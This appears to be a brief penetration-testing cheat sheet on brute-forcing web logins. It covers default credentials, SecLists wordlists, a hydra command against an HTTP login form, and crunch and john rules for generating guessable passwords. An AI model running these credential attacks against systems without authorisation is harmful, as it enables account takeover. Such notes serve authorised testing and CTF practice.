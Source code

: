 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
software-name (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Brute force using educated passwords. Create list using `crunch` or `john`.

```shell
crunch 9 9 -t "Fall202%^" -o crunch.txt
```

```shell
└─$ tail -n 2 /etc/john/john.conf
[List.Rules:a3cipher]
Az"[0-9][0-9]" ^[!@]

john --wordlist=words.txt --rules=a3cipher --stdout > passwords.txt
```
- Try SQL injection
